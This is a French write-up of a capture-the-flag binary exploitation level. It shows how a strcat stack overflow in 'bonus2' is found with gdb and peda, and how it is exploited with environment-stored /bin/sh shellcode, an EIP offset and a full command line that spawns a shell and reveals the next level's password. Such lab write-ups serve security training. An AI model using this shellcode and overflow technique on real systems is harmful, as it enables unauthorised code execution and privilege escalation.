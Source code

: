 ## Démarches

- Après avoir désassemblé le programme avec gdb, on peut analyser son fonctionnement :
    
    - gdb -> `info functions` :

        ```
        [...]
        0x08048360  memcmp
        0x08048360  memcmp@plt
        0x08048370  strcat
        0x08048370  strcat@plt
        0x08048380  getenv
        0x08048380  getenv@plt
        0x08048390  puts
        0x08048390  puts@plt
        [...]
        0x080483c0  strncpy
        0x080483c0  strncpy@plt
        [...]
        0x08048484  greetuser
        0x08048529  main
        [...]
        ```

    - Le programme prend 2 arguments et concatène le premier avec une chaine définie en fonction du langage set dans l'environnement :
            
        - `./bonus2 Jacques test`
            > Hello Jacques
            
        - Si le premier argument fait au moins 40 caractères, la seconde chaine est concaténée aussi :
        
            `./bonus2 $(python -c 'print("A"*40)') ok`
            > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAok

        - Si la longueur des 3 chaines additionnées fait plus de 72 caractères, le strcat segfault.
        
- On peut exploiter l'overflow du strcat :
    - On change la langue avec `export LANG=fi` :
        
        `./bonus2 Jacques test`
        > Hyvää päivää Jacques

    - On stocke un shellcode dans l'env *(cf bonus0)* :
        ```
        export SHELLCODE=`python -c 'print("\x90"*500+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
        ```

    - Dans gdb, on récupère l'adresse du shellcode avec la commande `x/s *((char **)environ)` :

        > 0xbffff7a0

    - Avec la fonction pattern de peda (dans gdb), on cherche l'offset de l'eip 
        - `pattern create 40`
            > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
        - `r $(python -c "print('A'*40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'`
            > Stopped reason: SIGSEGV
        - `pattern search` 
            > EIP+0 found at offset: 18
            EIP commence au 18ème caractère de av[2], on devra donc ajouter 18 caractères de padding avant d'appeler le shellcode

- Hors gdb, on peut donc appeler le shellcode de l'env et ouvrir un shell avec la commande suivante :
    ```
    ./bonus2 $(python -c 'print("A"*40)')  $(python -c 'print("B"*18+"\xa0\xf7\xff\xbf")')
    Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
    $ whoami
    bonus3
    $ pwd
    /home/user/bonus2
    $ cat /home/user/bonus3/.pass
    71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
    $ exit
    ```
<!-- 
- `objdump -d bonus2`
    ```
    08048484 <greetuser>:
        8048484:	55                   	push   %ebp
        8048485:	89 e5                	mov    %esp,%ebp
        8048487:	83 ec 58             	sub    $0x58,%esp
        804848a:	a1 88 99 04 08       	mov    0x8049988,%eax
        804848f:	83 f8 01             	cmp    $0x1,%eax
        8048492:	74 26                	je     80484ba <greetuser+0x36>
        8048494:	83 f8 02             	cmp    $0x2,%eax
        8048497:	74 50                	je     80484e9 <greetuser+0x65>
        8048499:	85 c0                	test   %eax,%eax
        804849b:	75 6d                	jne    804850a <greetuser+0x86>
        804849d:	ba 10 87 04 08       	mov    $0x8048710,%edx
        80484a2:	8d 45 b8             	lea    -0x48(%ebp),%eax
        80484a5:	8b 0a                	mov    (%edx),%ecx
        80484a7:	89 08                	mov    %ecx,(%eax)
        80484a9:	0f b7 4a 04          	movzwl 0x4(%edx),%ecx
        80484ad:	66 89 48 04          	mov    %cx,0x4(%eax)
        80484b1:	0f b6 52 06          	movzbl 0x6(%edx),%edx
        80484b5:	88 50 06             	mov    %dl,0x6(%eax)
        80484b8:	eb 50                	jmp    804850a <greetuser+0x86>
        80484ba:	ba 17 87 04 08       	mov    $0x8048717,%edx
        80484bf:	8d 45 b8             	lea    -0x48(%ebp),%eax
        80484c2:	8b 0a                	mov    (%edx),%ecx
        80484c4:	89 08                	mov    %ecx,(%eax)
        80484c6:	8b 4a 04             	mov    0x4(%edx),%ecx
        80484c9:	89 48 04             	mov    %ecx,0x4(%eax)
        80484cc:	8b 4a 08             	mov    0x8(%edx),%ecx
        80484cf:	89 48 08             	mov    %ecx,0x8(%eax)
        80484d2:	8b 4a 0c             	mov    0xc(%edx),%ecx
        80484d5:	89 48 0c             	mov    %ecx,0xc(%eax)
        80484d8:	0f b7 4a 10          	movzwl 0x10(%edx),%ecx
        80484dc:	66 89 48 10          	mov    %cx,0x10(%eax)
        80484e0:	0f b6 52 12          	movzbl 0x12(%edx),%edx
        80484e4:	88 50 12             	mov    %dl,0x12(%eax)
        80484e7:	eb 21                	jmp    804850a <greetuser+0x86>
        80484e9:	ba 2a 87 04 08       	mov    $0x804872a,%edx
        80484ee:	8d 45 b8             	lea    -0x48(%ebp),%eax
        80484f1:	8b 0a                	mov    (%edx),%ecx
        80484f3:	89 08                	mov    %ecx,(%eax)
        80484f5:	8b 4a 04             	mov    0x4(%edx),%ecx
        80484f8:	89 48 04             	mov    %ecx,0x4(%eax)
        80484fb:	8b 4a 08             	mov    0x8(%edx),%ecx
        80484fe:	89 48 08             	mov    %ecx,0x8(%eax)
        8048501:	0f b7 52 0c          	movzwl 0xc(%edx),%edx
        8048505:	66 89 50 0c          	mov    %dx,0xc(%eax)
        8048509:	90                   	nop
        804850a:	8d 45 08             	lea    0x8(%ebp),%eax
        804850d:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048511:	8d 45 b8             	lea    -0x48(%ebp),%eax
        8048514:	89 04 24             	mov    %eax,(%esp)
        8048517:	e8 54 fe ff ff       	call   8048370 <strcat@plt>
        804851c:	8d 45 b8             	lea    -0x48(%ebp),%eax
        804851f:	89 04 24             	mov    %eax,(%esp)
        8048522:	e8 69 fe ff ff       	call   8048390 <puts@plt>
        8048527:	c9                   	leave
        8048528:	c3                   	ret

    08048529 <main>:
        8048529:	55                   	push   %ebp
        804852a:	89 e5                	mov    %esp,%ebp
        804852c:	57                   	push   %edi
        804852d:	56                   	push   %esi
        804852e:	53                   	push   %ebx
        804852f:	83 e4 f0             	and    $0xfffffff0,%esp
        8048532:	81 ec a0 00 00 00    	sub    $0xa0,%esp
        8048538:	83 7d 08 03          	cmpl   $0x3,0x8(%ebp)
        804853c:	74 0a                	je     8048548 <main+0x1f>
        804853e:	b8 01 00 00 00       	mov    $0x1,%eax
        8048543:	e9 e8 00 00 00       	jmp    8048630 <main+0x107>
        8048548:	8d 5c 24 50          	lea    0x50(%esp),%ebx
        804854c:	b8 00 00 00 00       	mov    $0x0,%eax
        8048551:	ba 13 00 00 00       	mov    $0x13,%edx
        8048556:	89 df                	mov    %ebx,%edi
        8048558:	89 d1                	mov    %edx,%ecx
        804855a:	f3 ab                	rep stos %eax,%es:(%edi)
        804855c:	8b 45 0c             	mov    0xc(%ebp),%eax
        804855f:	83 c0 04             	add    $0x4,%eax
        8048562:	8b 00                	mov    (%eax),%eax
        8048564:	c7 44 24 08 28 00 00 	movl   $0x28,0x8(%esp)
        804856b:	00
        804856c:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048570:	8d 44 24 50          	lea    0x50(%esp),%eax
        8048574:	89 04 24             	mov    %eax,(%esp)
        8048577:	e8 44 fe ff ff       	call   80483c0 <strncpy@plt>
        804857c:	8b 45 0c             	mov    0xc(%ebp),%eax
        804857f:	83 c0 08             	add    $0x8,%eax
        8048582:	8b 00                	mov    (%eax),%eax
        8048584:	c7 44 24 08 20 00 00 	movl   $0x20,0x8(%esp)
        804858b:	00
        804858c:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048590:	8d 44 24 50          	lea    0x50(%esp),%eax
        8048594:	83 c0 28             	add    $0x28,%eax
        8048597:	89 04 24             	mov    %eax,(%esp)
        804859a:	e8 21 fe ff ff       	call   80483c0 <strncpy@plt>
        804859f:	c7 04 24 38 87 04 08 	movl   $0x8048738,(%esp)
        80485a6:	e8 d5 fd ff ff       	call   8048380 <getenv@plt>
        80485ab:	89 84 24 9c 00 00 00 	mov    %eax,0x9c(%esp)
        80485b2:	83 bc 24 9c 00 00 00 	cmpl   $0x0,0x9c(%esp)
        80485b9:	00
        80485ba:	74 5c                	je     8048618 <main+0xef>
        80485bc:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
        80485c3:	00
        80485c4:	c7 44 24 04 3d 87 04 	movl   $0x804873d,0x4(%esp)
        80485cb:	08
        80485cc:	8b 84 24 9c 00 00 00 	mov    0x9c(%esp),%eax
        80485d3:	89 04 24             	mov    %eax,(%esp)
        80485d6:	e8 85 fd ff ff       	call   8048360 <memcmp@plt>
        80485db:	85 c0                	test   %eax,%eax
        80485dd:	75 0c                	jne    80485eb <main+0xc2>
        80485df:	c7 05 88 99 04 08 01 	movl   $0x1,0x8049988
        80485e6:	00 00 00
        80485e9:	eb 2d                	jmp    8048618 <main+0xef>
        80485eb:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
        80485f2:	00
        80485f3:	c7 44 24 04 40 87 04 	movl   $0x8048740,0x4(%esp)
        80485fa:	08
        80485fb:	8b 84 24 9c 00 00 00 	mov    0x9c(%esp),%eax
        8048602:	89 04 24             	mov    %eax,(%esp)
        8048605:	e8 56 fd ff ff       	call   8048360 <memcmp@plt>
        804860a:	85 c0                	test   %eax,%eax
        804860c:	75 0a                	jne    8048618 <main+0xef>
        804860e:	c7 05 88 99 04 08 02 	movl   $0x2,0x8049988
        8048615:	00 00 00
        8048618:	89 e2                	mov    %esp,%edx
        804861a:	8d 5c 24 50          	lea    0x50(%esp),%ebx
        804861e:	b8 13 00 00 00       	mov    $0x13,%eax
        8048623:	89 d7                	mov    %edx,%edi
        8048625:	89 de                	mov    %ebx,%esi
        8048627:	89 c1                	mov    %eax,%ecx
        8048629:	f3 a5                	rep movsl %ds:(%esi),%es:(%edi)
        804862b:	e8 54 fe ff ff       	call   8048484 <greetuser>
        8048630:	8d 65 f4             	lea    -0xc(%ebp),%esp
        8048633:	5b                   	pop    %ebx
        8048634:	5e                   	pop    %esi
        8048635:	5f                   	pop    %edi
        8048636:	5d                   	pop    %ebp
        8048637:	c3                   	ret
    ```
     -->
<br>
----
## Ressources